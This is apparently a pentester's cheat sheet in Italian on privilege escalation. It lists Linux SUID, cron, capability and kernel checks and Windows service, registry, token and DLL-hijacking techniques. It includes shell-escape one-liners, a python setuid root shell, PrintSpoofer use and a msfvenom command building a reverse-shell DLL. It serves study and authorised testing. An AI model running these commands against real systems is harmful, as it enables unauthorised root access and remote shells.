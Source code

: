 # 📈 Privilege Escalation

Appunti e snippet per la fase di **escalation dei privilegi**.

## 📌 Obiettivi

* Individuare meccanismi di esecuzione privilegiata mal configurati
* Escalare da utente limitato a root/Administrator
* Preparare l’accesso persistente

---

## 🧾 Linux

### 🔹 SUID Binaries

**Perché usarli:**
I file con **SUID bit** permettono di eseguire binari con i privilegi del proprietario (spesso root). Se mal configurati → escalation.

**Opzioni principali / tecniche:**

* Ricerca file con SUID
* Verifica binari noti su **GTFOBins**

```bash
# Trova tutti i binari con SUID
find / -perm -4000 2>/dev/null

# Cerca con filtro
find / -user root -perm -4000 -exec ls -ldb {} \;

# Esempio GTFOBins con vim
vim -c ':!/bin/sh'
```

---

### 🔹 Cronjob Misconfig

**Perché usarli:**
Se un cronjob esegue script con permessi elevati ma modificabili → privilege escalation.

```bash
# Controllo cronjob utente
crontab -l

# Controllo cronjob globali
ls -la /etc/cron*
cat /etc/crontab
```

*Tipico exploit:* sostituire script richiamato da root con una reverse shell.

---

### 🔹 Linux Capabilities

**Perché usarle:**
Le capabilities permettono di concedere privilegi specifici a binari. Se configurate male → escalation (es. `cap_setuid`).

```bash
# Lista binari con capabilities
getcap -r / 2>/dev/null

# Esempio exploit python con cap_setuid
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

---

### 🔹 Kernel Exploits

**Perché usarli:**
Se il kernel è vulnerabile → exploit locale (es. DirtyCow, DirtyPipe).

```bash
# Info kernel
uname -a
cat /etc/issue

# Ricerca exploit con searchsploit
searchsploit linux kernel 5.8
```

⚠️ *Ultima spiaggia: usali solo quando non ci sono altre vie, perché instabili.*

---

## 🧾 Windows

### 🔹 Servizi (Services)

**Perché usarli:**
Se un servizio gira come SYSTEM ma è modificabile (binary path, permessi cartella) → escalation.

```powershell
# Lista servizi e permessi
sc query
sc qc <servizio>
accesschk.exe -uwcqv "Authenticated Users" *
```

---

### 🔹 Registry

**Perché usarlo:**
Chiavi di registro mal configurate possono consentire escalation (es. AlwaysInstallElevated).

```powershell
# Check AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

---

### 🔹 Token Abuse

**Perché usarlo:**
Windows assegna **privilegi speciali** ai token utente (SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege).

Strumenti: **incognito**, **PrintSpoofer**, **RogueWinRM**.

```powershell
# Verifica privilegi
whoami /priv

# Esempio PrintSpoofer
PrintSpoofer.exe -i -c cmd
```

---

### 🔹 DLL Hijacking

**Perché usarlo:**
Se un programma eseguito da SYSTEM carica DLL da percorsi scrivibili → iniettare DLL malevola.

```powershell
# Monitoraggio caricamento DLL
procmon.exe (Sysinternals)

# Genera DLL malevola con msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o exploit.dll
```

---

## 📚 Risorse Utili

* 🔗 [GTFOBins (Linux)](https://gtfobins.github.io/)
* 🔗 [LOLBAS (Windows)](https://lolbas-project.github.io/)
* 🔗 [PayloadsAllTheThings – PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation)
* 🔗 [HackTricks – PrivEsc](https://book.hacktricks.xyz/)
* 🔗 [PrivEsc Cheatsheets (0xdf)](https://0xdf.gitlab.io/tags.html#privesc)

---
